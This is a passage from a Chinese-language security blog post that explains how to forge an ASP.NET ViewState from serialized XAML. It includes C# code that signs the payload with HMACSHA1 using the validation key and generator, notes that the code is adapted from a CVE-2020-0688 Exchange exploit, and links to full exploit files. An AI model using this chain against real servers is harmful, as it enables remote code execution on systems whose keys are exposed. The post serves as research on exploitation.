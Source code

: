 
(2)生成序列化xaml数据

需要用到Microsoft.PowerShell.Editor.dll

(3)生成签名数据

参考代码：

```
byte[] validationKey= strToToHexByte(key);
uint _clientstateid = 0;
// Converting "generator" from HEX to INT
if(!uint.TryParse(generator, NumberStyles.HexNumber, CultureInfo.InvariantCulture, out _clientstateid))
		System.Environment.Exit(0);
byte[] _mackey = new byte[4];
_mackey[0] = (byte)_clientstateid;
_mackey[1] = (byte)(_clientstateid >> 8);
_mackey[2] = (byte)(_clientstateid >> 16);
_mackey[3] = (byte)(_clientstateid >> 24);
ms = new MemoryStream();
ms.Write(data,0,data.Length);
ms.Write(_mackey,0,_mackey.Length);
byte[] hash=(new HMACSHA1(validationKey)).ComputeHash(ms.ToArray());
```

**注：**

代码修改自https://github.com/zcgonvh/CVE-2020-0688/blob/master/ExchangeCmd.cs#L253

(4)拼接序列化xaml数据和签名数据后作Base64编码

调用`Convert.ToBase64String()`即可

完整的实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/XamlToViewState.cs

代码能够读取xaml文件，使用validationkey和generator计算签名，生成最终的ViewState

优点：

流程清晰，便于调试和修改细节

缺点：

需要依赖中间文件Microsoft.PowerShell.Editor.dll，占用空间

**注：**

该方法的完整利用文件已打包上传至github，地址如下：

https://github.com/3gstudent/test/blob/master/XamlToViewState.zip

### 2.从序列化xaml数据生成ViewState

借助ysoserial.net跳过从xaml数据到序列化xaml数据的环节，提高开发效率

流程如下：
